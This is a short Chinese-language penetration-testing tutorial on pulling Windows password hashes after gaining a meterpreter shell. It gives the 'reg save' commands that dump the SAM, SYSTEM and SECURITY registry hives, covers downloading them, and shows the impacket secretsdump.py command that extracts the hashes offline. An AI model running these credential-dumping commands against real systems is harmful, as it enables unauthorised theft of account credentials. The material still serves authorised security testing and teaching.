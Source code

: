 很多环境下，不允许上传或者使用 mimikatz。而针对非域控的单机离线提取 hash 显得尤为重要。

在 meterpreter shell 命令切到交互式 cmd 命令。  
![](media/647ac3d1d83b7d7711b2cfd0ce18f1d5.jpg)

reg save 方式使得需要下载的目标机hash文件更小。  
* reg save HKLM\SYSTEM sys.hiv  
* reg save HKLM\SAM sam.hiv  
* reg save hklm\security security.hiv  

![](media/cebaa1fc93231bc1aaf7738c222b5ac6.jpg)

![](media/f2dc08a2bd64fc29ec0189933b4442dc.jpg)

meterpreter下自带download功能。  

![](media/336cd95e4be157c266efcd04d9ddc064.jpg)

![](media/3f2d037ed7ac0197c01e95b7651fad41.jpg)

### 离线提取：

本季用到的是 impacket 的  secretsdump.py。Kali默认路径：`/root/impacket/examples/secretsdump.py`

**命令如下：**
```bash
root@John:/tmp# python /root/impacket/examples/secretsdump.py ‐sam sam.hiv ‐security security.hiv ‐system sys.hiv LOCAL
```
![](media/ced7254cc160ced11f2f3f512df53aec.jpg)


>   Micropoor

